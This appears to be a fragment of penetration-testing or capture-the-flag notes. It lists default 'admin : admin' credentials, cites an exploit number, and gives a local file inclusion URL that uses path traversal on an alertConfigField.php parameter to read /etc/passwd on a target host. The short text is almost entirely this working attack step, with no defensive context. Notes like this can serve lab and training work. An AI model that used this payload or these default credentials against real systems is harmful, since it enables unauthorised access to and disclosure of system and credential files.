 admin : admin

LFI:

exploit 25971

```
http://$TARGET/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
